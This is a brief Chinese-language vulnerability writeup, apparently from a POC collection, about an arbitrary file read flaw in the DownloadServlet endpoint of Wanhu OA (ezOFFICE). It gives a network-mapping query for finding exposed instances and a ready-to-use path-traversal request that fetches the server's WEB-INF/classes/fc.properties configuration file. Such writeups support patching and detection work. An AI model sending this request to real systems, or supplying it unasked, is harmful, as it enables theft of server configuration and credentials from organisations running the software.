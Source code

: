 # 

# 万户OA DownloadServlet 任意文件读取漏洞

## 漏洞描述

万户OA DownloadServlet接口存在任意文件读取漏洞，攻击者通过漏洞可以读取服务器中的敏感文件，获取敏感信息

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![1](./images/202209131050540.png)

验证POC

```
/defaultroot/DownloadServlet?modeType=0&key=x&path=..&FileName=WEB-INF/classes/fc.properties&name=x&encrypt=x&cd=&downloadAll=2 
```

![2](./images/202209131050803.png)
